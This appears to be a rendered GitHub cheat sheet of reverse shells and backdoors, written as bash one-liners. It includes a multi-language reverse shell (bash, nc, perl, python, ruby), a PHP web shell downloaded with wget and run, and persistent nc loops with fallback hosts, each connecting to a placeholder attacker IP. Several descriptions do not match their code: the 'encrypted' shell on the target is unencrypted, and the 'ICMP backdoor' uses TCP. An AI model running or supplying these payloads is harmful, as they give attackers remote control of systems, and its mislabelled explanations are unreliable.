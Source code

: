 #### Shells and Backdoors

1. **Polyglot Reverse Shell (Cross-platform compatibility)**: A versatile reverse shell script that attempts multiple methods across different environments.
    ```bash
    bash -c "exec bash -i &>/dev/tcp/<attack_ip>/<attack_port> <&1 &" || \
    nc -e /bin/sh <attack_ip> <attack_port> || \
    perl -e 'use Socket;$i="<attack_ip>";$p=<attack_port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));connect(S,sockaddr_in($p,inet_aton($i)));open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");' || \
    python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attack_ip>",<attack_port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' || \
    ruby -rsocket -e 'exit if fork;c=TCPSocket.new("<attack_ip>","<attack_port>");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
    ```
2. **Encrypted Reverse Shell**: Establishes an encrypted reverse shell connection using SSL/TLS.
    ```bash
    openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
    openssl s_server -quiet -key key.pem -cert cert.pem -port <attack_port>
    # On the target:
    mkfifo /tmp/f; /bin/sh -i <&3 >&3 2>&3 3<>/dev/tcp/<attack_ip>/<attack_port>
    ```
3. **Web-Based Reverse Shell (Payload Delivery via HTTP)**: Deploys a PHP-based reverse shell through a web server, often used in web application exploitation.
    ```bash
    echo "<?php system(\$_GET['cmd']); ?>" > shell.php
    python3 -m http.server <attack_port>
    # On the target, fetch and execute the payload:
    wget http://<attack_ip>:<attack_port>/shell.php -O /tmp/shell.php
    php /tmp/shell.php
    ```
4. **ICMP Backdoor**: Establishes a covert communication channel using ICMP echo requests and responses.
    ```bash
    while true; do ping -c1 <attack_ip> | nc -l -p <attack_port> -e /bin/bash; sleep 10; done
    ```
5. **Persistent Backdoor with Multiple Fallbacks**: Creates a highly resilient backdoor with multiple fallback IPs and ports to maintain persistence.
    ```bash
    while true; do 
      nc -e /bin/bash <attack_ip1> <attack_port1> || 
      nc -e /bin/bash <attack_ip2> <attack_port2> || 
      bash -i >& /dev/tcp/<attack_ip3>/<attack_port3> 0>&1 || 
      sleep 60; 
    done
    ```
